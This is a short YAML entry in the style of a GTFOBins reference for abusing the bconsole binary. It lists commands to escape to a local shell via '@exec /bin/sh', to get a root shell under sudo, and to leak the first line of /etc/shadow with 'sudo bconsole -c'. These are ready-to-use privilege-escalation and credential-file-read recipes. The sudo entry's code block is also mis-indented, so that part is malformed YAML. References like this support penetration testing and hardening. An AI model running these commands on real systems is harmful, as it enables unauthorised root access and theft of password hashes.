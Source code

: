 ```yaml
---
functions:
  shell:
    - description: The @exec function allows you to execute commands in the local tty
      code: |
        bconsole
        @exec /bin/sh
  sudo:
    - description: The @exec function allows you to execute commands in the local tty
      code: |
      sudo bconsole
        @exec /bin/sh
  file-read:
    - description: The error message of the -c options displays the first line of a restricted file, when having sudo rights for the binary.
      code: sudo bconsole -c /etc/shadow
---
```

